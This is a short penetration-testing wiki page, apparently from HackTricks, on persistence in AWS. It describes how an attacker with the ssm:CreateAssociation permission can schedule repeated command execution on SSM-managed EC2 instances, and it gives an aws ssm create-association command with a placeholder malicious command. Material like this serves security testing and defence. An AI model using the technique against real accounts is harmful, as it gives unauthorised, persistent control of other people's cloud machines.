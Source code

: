 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

For more information check:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Using ssm:CreateAssociation for persistence

An attacker with the permission ssm:CreateAssociation can create a State Manager Association to automatically execute commands on EC2 instances managed by SSM. These associations can be configured to run at a fixed interval, making them suitable for backdoor-like persistence without interactive sessions.


```bash
aws ssm create-association \
  --name SSM-Document-Name \
  --targets Key=InstanceIds,Values=target-instance-id \
  --parameters commands=["malicious-command"] \
  --schedule-expression "rate(30 minutes)" \
  --association-name association-name
```

> [!NOTE]
> This persistence method works as long as the EC2 instance is managed by Systems Manager, the SSM agent is running, and the attacker has permission to create associations. It does not require interactive sessions or explicit ssm:SendCommand permissions. **Important:** The `--schedule-expression` parameter (e.g., `rate(30 minutes)`) must respect AWS's minimum interval of 30 minutes. For immediate or one-time execution, omit `--schedule-expression` entirely — the association will execute once after creation.

{{#include ../../../banners/hacktricks-training.md}}



